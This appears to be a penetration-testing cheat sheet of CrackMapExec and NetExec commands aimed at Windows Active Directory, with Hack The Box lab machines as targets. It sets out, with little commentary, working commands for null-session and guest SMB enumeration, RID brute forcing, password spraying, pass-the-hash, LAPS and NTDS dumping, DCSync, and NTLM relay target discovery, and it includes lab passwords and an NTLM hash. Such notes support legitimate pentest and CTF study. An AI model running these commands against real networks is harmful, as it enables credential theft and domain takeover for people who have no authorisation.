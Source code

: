 # # `Commands` -

1. Smb Enumeration -

```bash
crackmapexec smb dc01.timelapse.htb
```

2. List shares -

```bash
crackmapexec smb dc01.timelapse.htb --shares
```

```bash
crackmapexec smb 10.10.11.202 -u napster -p '' --shares
```

3. Smb null authentication -

```bash
crackmapexec smb dc01.timelapse.htb --shares -u nap -p ''
```

4. RID Bruteforce/Finding Usernames -

```bash
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```

5. Password Spray -

```bash
crackmapexec smb 10.10.10.248 -u final_userlist -p NewIntelligenceCorpUser9876
```

[giving userlist and specific password]

```bash
crackmapexec smb 10.10.11.158 -u user -p pass --no-bruteforce --continue-on-success
```

With the `--no-bruteforce` option, it will match each user with the corresponding password (rather than trying all with all as is the default behavior).

- Hash Bruteforce -

```bash
crackmapexec smb htb.local -u henry.vinson -H hashes
```

6. Identify ADCS -

One thing that always needs enumeration on a Windows domain is to look for `Active Directory Certificate Services (ADCS)`. A quick way to check for this is using crackmapexec :

```bash
crackmapexec ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

7. Check whether Smb Signing Enabled/Disabled (Ntlm relay Attacks) :

```bash
cme smb 10.10.150.53 --gen-relay-list relay.txt 
```

8. Using Bloodhound :

```bash
cme ldap dc01.reflection.vl -u 'abbie.smith' -p 'napster' -ns 10.10.150.53 --bloodhound -c all
```

[-c  optional]

9. Checking MachineAccountQuota (RBCD) :

```bash
cme ldap dc01.reflection.vl -u 'abbie.smith' -p 'napster' -M maq
```

10. Dumping LAPS password -

```bash
crackmapexec smb 10.10.11.158 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds
```

11. Kerberos Authentication -

```bash
crackmapexec smb hathor.windcorp.htb -k -d windcorp.htb -u beatricemill -p '!!!!ilovegood17' --shares
```

-   `smb` - protocol to use
-   `hathor.windcorp.htb` - the full hostname, not the IP or domain name (this is important for Kerberos)
-   `-k` - use kerberos auth
-   `-d windcorp.htb` - domain
-   `-u beatricemill` - username
-   `-p '!!!!ilovegood17'` - password
-   `--shares` - list the shares

12. Connecting to LDAP and dumping list of Users using Kerberos Authentication :

```bash
crackmapexec ldap 10.10.11.181 -u d.klay -p 'Darkmoonsky248girl' -k --users
```

Not only does it give the users, but also the description field if it’s populated.

13. Dumping NTDS DC Sync :

```bash
napster@hacky$ crackmapexec smb -dc-ip dc.absolute.htb -u 'DC$' -H A7864AB463177ACB9AEC553F18F42577 --ntds
```

14. Dumping User via Smb :

```bash
crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb --users
```

15. Checking Password Policy :

```bash
crackmapexec smb 192.168.56.11 --pass-pol
```

16. Check if Spooler is active :

```bash
crackmapexec smb 192.168.56.10-23 -M spooler
```

## # `Error Diagonsis` -

1. Trying to validate that with `crackmapexec` fails :

```bash
crackmapexec smb 10.10.11.181 -u d.klay -p 'Darkmoonsky248girl'
SMB         10.10.11.181    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
```

`STATUS_ACCOUNT_RESTRICTION` typically means NTLM is disabled, and you’ll need to use Kerberos for auth.

```bash
crackmapexec smb 10.10.11.181 -u d.klay -p 'Darkmoonsky248girl' -k
SMB         10.10.11.181    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
```

